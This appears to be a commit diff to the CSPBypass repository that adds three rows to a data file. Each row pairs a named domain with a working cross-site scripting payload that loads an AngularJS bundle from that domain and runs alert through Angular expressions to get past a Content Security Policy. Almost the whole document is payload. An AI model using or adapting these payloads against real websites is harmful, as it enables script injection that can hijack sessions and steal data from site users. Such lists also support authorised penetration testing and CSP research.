

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added 3 more

```diff
--- a/data.tsv
+++ b/data.tsv
+row 77: js-smb.devices.ovoenergy.com | <body ng-app ng-csp><script src="https://js-smb.devices.ovoenergy.com/js-smb.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
+row 90: portal.ayco.com | <body ng-app ng-csp><script src="https://portal.ayco.com/publicBundles/angularjs"></script><input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'></body>
+row 99: romania.amazon.com | <body ng-app ng-csp><script src="https://romania.amazon.com/app/vendor.min.js"></script><input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'></body>
```
